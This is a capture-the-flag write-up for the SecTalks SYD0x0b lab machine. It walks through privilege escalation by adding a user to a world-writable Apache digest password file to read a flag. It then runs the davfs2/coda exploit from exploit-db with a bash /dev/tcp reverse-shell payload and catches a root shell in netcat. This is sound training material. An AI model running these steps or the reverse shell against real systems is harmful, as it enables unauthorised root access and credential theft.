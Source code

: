 # SYD0x0b

```console
sectalks@sectalks:~$ ls
davfs2-1.4.7.tar.gz
```
System is probably vulnerable to [this](https://www.exploit-db.com/exploits/28806/) davfs2 privilege escalation vulnerability affecting version 1.4.6/1.4.7
```console
sectalks@sectalks:~$ grep davfs /etc/fstab
http://localhost/webdav /mnt/dav davfs user,noauto,uid=dave,file_mode=600,dir_mode=700 0 0
sectalks@sectalks:~$ grep davfs /etc/group
davfs2:x:1001:dave
```
Dave can mount davfs mounts and there is one defined in fstab
```console
sectalks@sectalks:~$ lsmod | grep -cE 'coda|fuse'
0
```
Both the coda and fuse modules are not loaded, which is a prerequisite for the exploit
```console
sectalks@sectalks:~$ netstat -utan | grep LISTEN
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp6       0      0 :::80                   :::*                    LISTEN
tcp6       0      0 :::22                   :::*                    LISTEN
```
There is a web server running on this system
```console
sectalks@sectalks:~$ find /var/www/
/var/www/
/var/www/webdav
/var/www/webdav/test.txt
/var/www/webdav/flag1.txt
/var/www/index.html
sectalks@sectalks:~$ ls -l /var/www/webdav/
total 8
-rw-r----- 1 root www-data 25 2015-10-18 06:10 flag1.txt
-rw-r----- 1 root www-data 34 2015-10-18 06:10 test.txt
```
There is a folder named webdav in www root which contains a flag. The file is readable by www-data.
```console
sectalks@sectalks:~$ find /etc/apache2/ -perm 777
---8<---
/etc/apache2/mods-enabled/cgid.load
/etc/apache2/sites-enabled/000-default
/etc/apache2/users.password
---8<---
sectalks@sectalks:~$ cat /etc/apache2/users.password
mrdav:webdav:3610916e5f1909204e0826f0f59954a6
```
There is a world readable/writable authentication file
```console
sectalks@sectalks:~$ head /etc/apache2/sites-enabled/000-default
```
```apache
DavLockDB /var/www/DavLock
<VirtualHost *:80>
        ServerAdmin webmaster@localhost
        Alias /webdav /var/www/webdav
        <Directory /var/www/webdav>
                DAV On
                AuthType Digest
                AuthName "webdav"
                AuthUserFile /etc/apache2/users.password
                Require valid-user
```
The authentication file contains htdigest credentials. We could crack password for the existing user but it's easier to just add our own user to the file.
```console
sectalks@sectalks:~$ htdigest /etc/apache2/users.password webdav z00nx
Adding user z00nx in realm webdav
New password:
Re-type new password:
sectalks@sectalks:~$ wget --user z00nx --ask-password http://localhost/webdav/flag1.txt -O - -q
Password for user `z00nx':
dave:davesshittypassword
sectalks@sectalks:~$ wget --user z00nx --ask-password http://localhost/webdav/test.txt -O - -q
Password for user `z00nx':
test test testes
I'm so juvenile.
```
We now have credentials for dave
```console
dave@sectalks:~$ wget --no-check-certificate https://www.exploit-db.com/download/28806 -O 28806.temp.txt
--2015-11-07 02:15:54--  https://www.exploit-db.com/download/28806
Resolving www.exploit-db.com... 192.124.249.8
Connecting to www.exploit-db.com|192.124.249.8|:443... connected.
WARNING: certificate common name `*.mycloudproxy.com' doesn't match requested host name `www.exploit-db.com'.
HTTP request sent, awaiting response... 200 OK
Length: 7198 (7.0K) [application/txt]
Saving to: `28806.temp.txt'

100%[======================================>] 7,198       --.-K/s   in 0s

2015-11-07 02:15:54 (354 MB/s) - `28806.temp.txt' saved [7198/7198]
dave@sectalks:~$ tr -d '\r' < 28806.temp.txt > 28806.txt
dave@sectalks:~$ sed -n '40,73p' 28806.txt > coda.c
dave@sectalks:~$ sed -n '84,90p' 28806.txt > Makefile
dave@sectalks:~$ sed -n '101,192p' 28806.txt > exploit.sh
dave@sectalks:~$ echo '#!/usr/bin/env bash' > /home/dave/rootprog
dave@sectalks:~$ echo 'bash -i >& /dev/tcp/192.168.0.157/4444 0>&1' >> /home/dave/rootprog
dave@sectalks:~$ chmod +x /home/dave/rootprog
dave@sectalks:~$ chmod +x exploit.sh
dave@sectalks:~$ echo 'kernel_fs       coda' >> .davfs2/davfs2.conf
```
Lets download the exploit, remove dos line endings and split the file into the three seperate files.
We then create a shell script which will create a reverse shell back to us.
We need to add the kernel_fs line into the davfs2.conf file which is missing and is required for the exploit to work.
```console
root@kali:~# nc -lvvp 4444
listening on [any] 4444 ...
```
On our system we'll start a netcat listener to receive the reverse shell
```console
dave@sectalks:~$ ./exploit.sh
#######################################
Specify the full path of the kernel module which you want to load
Leave empty if you wish to compile it now
Understand that you need kernel headers, make and gcc for successful compilation
#######################################

make -C /lib/modules/2.6.32-21-generic-pae/build M=/home/dave modules
make[1]: Entering directory `/usr/src/linux-headers-2.6.32-21-generic-pae'
  CC [M]  /home/dave/coda.o
  Building modules, stage 2.
  MODPOST 1 modules
  CC      /home/dave/coda.mod.o
  LD [M]  /home/dave/coda.ko
make[1]: Leaving directory `/usr/src/linux-headers-2.6.32-21-generic-pae'
#######################################
Copying the modules in use for the running kernel in the local directory
#######################################
#######################################
Copying coda.ko module
#######################################
#######################################
Setting the 'modules.dep' and running depmod
#######################################
#######################################
Specify the user-mode ELF which you whish to copy in /tmp/rootprog that will be run as root. Default value is /home/dave/rootprog
WARNING !!!!!!!! YOU HAVE ONLY 1 SHOT !!!!! unmounting webdav partitions doesn't unload the coda.ko module
#######################################
/home/dave/rootprog
#######################################
Setting MODPROBE_OPTIONS variable
#######################################
#######################################
Now, check the the /home/dave/.davfs2/davfs.conf. Modify the default value of 'kernel_fs' to coda eg:
# General Options
# ---------------

# dav_user        davfs2            # system wide config file only
# dav_group       davfs2            # system wide config file only
# ignore_home                       # system wide config file only
kernel_fs       coda
# buf_size        16                 # KiByte
#######################################
#######################################
Then, check /etc/fstab for remote webdav servers which the user can mount, eg:
https://www.crushftp.com/demo/   /home/foo/dav   davfs   noauto,user   0   0
#######################################
#######################################
If the remote webdav is authenticated, ensure to have valid credentials. The run 'mount /home/foo/dav' inside this terminal'
#######################################
dave@sectalks:~$ mount /mnt/dav/
```
Lets run the exploit and specify our command which will be run as root. We finally need to run mount against a user mountable davfs share to trigger the exploit.
```console
root@kali:~# nc -lvvp 4444
listening on [any] 4444 ...
connect to [192.168.0.157] from sectalks.localnet [192.168.0.179] 56331
# id
id
uid=0(root) gid=0(root)
# pwd
pwd
/
# cd /root
cd /root
# ls
ls
flag.txt
# cat flag.txt
cat flag.txt
WebDAV gives me the heebie-jeebies.
```
The exploit triggered and we received our reverse shell as root. In root's home directory we find the final flag which is **WebDAV gives me the heebie-jeebies.**

